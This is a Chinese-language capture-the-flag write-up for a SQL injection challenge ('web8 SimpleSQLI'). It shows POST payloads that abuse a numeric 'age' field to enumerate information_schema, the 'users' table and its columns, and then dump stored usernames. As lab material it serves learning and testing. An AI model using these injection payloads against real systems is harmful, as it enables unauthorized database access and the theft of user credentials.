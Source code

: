 #### 10、web8  SimpleSQLI     just ok

​    http://123.206.31.85:10008

![1555855848385](img/1555855848385.png)

随意注册登录后，进入到信息更新页面，由于age 是纯数字不用考虑闭合引号  于是再此进行SQL注入。注入页面在 

 http://123.206.31.85:10008/?updata.php  post提交  注意每次提交时带上  taken

```
nickname=Lamber%27123&age=(select group_concat(schema_name) from information_schema.schemata)&description=users213213&token=c784fca1866144c8f4a46c8f848a751f
#得到information_schema,web8

nickname=Lamber%27123&age=(select group_concat(table_name) from information_schema.tables where table_schema=database())&description=users213213&token=0b22b45bcea23019fb75625fbcbabefd
#得到一张表明  users

nickname=Lamber%27123&age=(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)&description=users213213&token=4ac637c081b03611c0fed94a0282974d
#所有列  id,username,password,nickname,age,description

nickname=Lamber%27123&age=(select group_concat(username) from (select * from users )x)&description=users213213&token=250faaa4f220ddfb3fed6a8213160014
# 逐一查看列值 无flag              啊啊啊啊疯了  flag 应该被删了

#所有用户 adasdasdas,asdfsadfads,4410,5146,6720,4634,3380,4306,156,7675,1518,7182,4028,3064,6501,4924,8922, admin,11,x3nd,123,aaa,admin                                                               ，
#所有密码
```